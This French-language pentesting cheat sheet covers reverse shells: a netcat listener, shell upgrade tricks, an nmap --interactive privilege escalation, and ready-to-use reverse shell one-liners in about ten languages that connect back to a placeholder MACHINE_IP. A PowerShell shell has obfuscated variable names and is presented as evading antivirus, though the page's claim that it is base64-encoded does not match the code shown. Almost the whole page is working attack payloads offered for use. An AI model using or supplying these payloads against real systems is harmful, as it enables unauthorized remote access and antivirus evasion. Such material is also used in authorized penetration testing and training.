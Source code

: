 
  
Un reverse shell est un [[Shell_explanation]] entre une machine cible et la notre.

## __Setup Netcat Listener__

Démarrage d’un serveur **Netcat** pour être à l’**écoute d’un port**.

```shell
user@ip:~$ rlwrap nc -vnlp 1234
```

Attendez que votre [script](#__Scripts__) soit éxécuté.

Une fois le reverse shell en marche, pour switcher vers un **fully interactive shell**.

```shell
$ python -c 'import pty; pty.spawn("/bin/bash")';
```

On peut ensuite utiliser **`su`** pour se connecter.

## __Nmap --interactive__

**Seulement pour les version 2.02 à 5.21**
Si notre utilisateur a les permissions d'utiliser nmap, on peut utiliser [nmap pour se connecter en root](https://gtfobins.github.io/gtfobins/nmap/#shell) sur notre shell, pour cela :

```shell
user@linux:/$ nmap --interactive
nmap> !sh
```

C'est une des astuces disponibles dans [Linux_Priv_esc](Linux_Priv_esc.md).

## __Scripts__

Pour générer des reverses shells vous pouvez utiliser le site de 0day, [revshells](https://www.revshells.com/)
Vous pouvez aussi utiliser [ce git](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Reverse%20Shell%20Cheatsheet.md#nodejs)

### Bash

```bash
bash -i >& /dev/tcp/MACHINE_IP/1234 0>&1
```

### Perl

```perl
perl -e 'use Socket;$i="MACHINE_IP";$p=1234;socket(S,PF_INET,SOCK_STREAM,getprotobyname("tcp"));if(connect(S,sockaddr_in($p,inet_aton($i)))){open(STDIN,">&S");open(STDOUT,">&S");open(STDERR,">&S");exec("/bin/sh -i");};'
```

### Python

```python
python3 -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("MACHINE_IP",1234));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'
```

### Php

```php
php -r '$sock=fsockopen("MACHINE_IP",1234);exec("/bin/sh -i <&3 >&3 2>&3");'
```

ou 

[Celui ci](https://github.com/pentestmonkey/php-reverse-shell/blob/master/php-reverse-shell.php), mais windows defender le supprimera.

### Ruby

```ruby
ruby -rsocket -e'f=TCPSocket.open("MACHINE_IP",1234).to_i;exec sprintf("/bin/sh -i <&%d >&%d 2>&%d",f,f,f)'
```

### Netcat

```shell
nc -e /bin/sh MACHINE_IP 1234
```

### Java

```java
r = Runtime.getRuntime()
p = r.exec(["/bin/bash","-c","exec 5<>/dev/tcp/MACHINE_IP/1234;cat <&5 | while read line; do \$line 2>&5 >&5; done"] as String[])
p.waitFor()
```

### NodeJS

```javascript
(function(){
    var net = require("net"),
        cp = require("child_process"),
        sh = cp.spawn("/bin/sh", []);
    var client = new net.Socket();
    client.connect(1234, "MACHINE_IP", function(){
        client.pipe(sh.stdin);
        sh.stdout.pipe(client);
        sh.stderr.pipe(client);
    });
    return /a/; // Prevents the Node.js application from crashing
})();
```

### Groovy

```groovy
String host="MACHINE_IP";
int port=1234;
String cmd="cmd.exe";
Process p=new ProcessBuilder(cmd).redirectErrorStream(true).start();
Socket s=new Socket(host,port);
InputStream pi=p.getInputStream(),pe=p.getErrorStream(), si=s.getInputStream();
OutputStream po=p.getOutputStream(),so=s.getOutputStream();
while(!s.isClosed()){
	while(pi.available()>0)so.write(pi.read());
	while(pe.available()>0)so.write(pe.read());
	while(si.available()>0)po.write(si.read());
	so.flush();
	po.flush();Thread.sleep(50);
	try {p.exitValue();break;}catch (Exception e){}
};
p.destroy();
s.close();
```

### Powershell

Ce shell est chiffré en [base64](Encryption_Chiffrement) car il est repéré par la plupart des antivirus windows. 

```powershell
"$84b5d7ab8755451cb386a79589e39fa8 = New-Object System.Net.Sockets.TCPClient('127.0.0.1',8181); $3b95c1d3d7dc4e4fa6474ce1bceae743 = $84b5d7ab8755451cb386a79589e39fa8.GetStream(); [byte[]] $367ad63a4a834bf5bb275aab24a4890c = 0..65535|%{0}; while(($d084ee484cf44c09b003024847840f3d = $3b95c1d3d7dc4e4fa6474ce1bceae743.Read($367ad63a4a834bf5bb275aab24a4890c, 0, $367ad63a4a834bf5bb275aab24a4890c.Length)) -ne 0){; $b16fd2353f0d413484e1583776256f61 = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($367ad63a4a834bf5bb275aab24a4890c,0, $d084ee484cf44c09b003024847840f3d); $b396f8bb13ec47c28e4f721085e95361 = (iex $b16fd2353f0d413484e1583776256f61 2>&1 | Out-String ); $2bfb84697b834fa09479071ec68d6b19 = $b396f8bb13ec47c28e4f721085e95361 + 'PS' + $(gl) + '> '; $12e0e1f0c5e14474b53907ee11f75ed7 = ([text.encoding]::ASCII).GetBytes($2bfb84697b834fa09479071ec68d6b19); $3b95c1d3d7dc4e4fa6474ce1bceae743.Write($12e0e1f0c5e14474b53907ee11f75ed7,0, $12e0e1f0c5e14474b53907ee11f75ed7.Length);$3b95c1d3d7dc4e4fa6474ce1bceae743.Flush()}; $84b5d7ab8755451cb386a79589e39fa8.Close()"
```